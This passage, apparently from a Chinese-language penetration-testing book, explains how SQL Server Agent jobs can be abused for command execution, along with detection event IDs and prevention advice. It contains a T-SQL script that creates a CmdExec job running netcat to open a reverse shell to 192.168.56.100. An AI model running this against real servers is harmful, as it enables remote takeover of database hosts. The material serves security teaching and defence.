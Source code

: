与 CLR 执行一样，无法完全防止这种攻击。建议禁用 OLE 自动化，并移除用户存储过程的执行权限。可以通过对所有上述执行方法的`sp_configure`事件监控来进行检测。此外，当`odsole70.dll`加载到内存中时，事件 ID `33090`将被生成，而当`sp_OACreate`被执行时，将生成事件 ID `8128`。

## 代理作业

SQL Server Agent 是一个 Windows 服务，用于执行自动化任务。代理作业将在 SQL Server Agent 服务下运行，或者可以利用代理代理功能，这意味着作业将在不同的用户上下文中运行。可以通过`sp_start_job`存储过程手动启动作业、安排作业或在特定条件满足时执行作业。要创建一个作业，需要`sysadmin`角色或`msdb`数据库中的`SQLAgentUserRole`、`SQLAgentReaderRole`和`SQLAgentOperatorRole`固定数据库角色。许多作业类型，如 CmdExec、PowerShell、ActiveX 脚本和 SQL Server 集成服务，支持命令执行。利用作业功能需要以下步骤：

+   `sp_add_job` – 创建一个作业

+   `sp_add_jobstep` – 添加作业步骤

+   `sp_start_job` – 运行一个作业

+   `sp_delete_job` – 删除作业

在 Optiv 博客文章[24]中展示了一个逐步创建 PowerShell 作业的精彩示例。让我们为 CmdExec 创建一个作业以获取反向 Shell：

```
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC SP_CONFIGURE 'Agent XPs', 1
RECONFIGURE
USE msdb
EXEC dbo.sp_add_job @job_name = N'rev_shell'
EXEC sp_add_jobstep @job_name = N'rev_shell', @step_name = N'run_nc',
@subsystem = N'cmdexec', @command = N'C:\Users\Public\nc.exe -e cmd 192.168.56.100 443', @retry_attempts = 1, @retry_interval = 5
EXEC dbo.sp_add_jobserver @job_name = N'rev_shell'
EXEC dbo.sp_start_job N'rev_shell'
EXEC dbo.sp_delete_job @job_name = N'rev_shell'
```

不幸的是，这段代码在我们的实验室中无法运行，因为 SQL Server Agent 服务无法启动。原因是 Agent 作业仅在付费版 MS SQL Server 中支持，而在 Express 版中不支持。然而，展示这种攻击向量也是很有意义的。像往常一样，PowerUpSQL 中有一个函数（**Invoke-SQLOSCmdAgentJob**）和 SQLRecon 中的两个模块（`AgentStatus`和**AgentCmd**）可以自动化该任务。攻击者可以通过添加一个步骤到现有作业中，而不是创建一个新的作业。要列出所有作业，可以使用 PowerUpSQL 中的`Get-SQLAgentJob`函数或以下查询：

```
SELECT
job.job_id, notify_level_email, name, enabled,
description, step_name, command, server, database_name
FROM
msdb.dbo.sysjobs job
INNER JOIN
msdb.dbo.sysjobsteps steps
ON
job.job_id = steps.job_id
```

预防建议包括禁用 SQL Server Agent 服务（如果没有使用的话），并限制具有`SQLAgentUserRole`、`SQLAgentReaderRole`和`SQLAgentOperatorRole`固定数据库角色的用户。

## 外部脚本
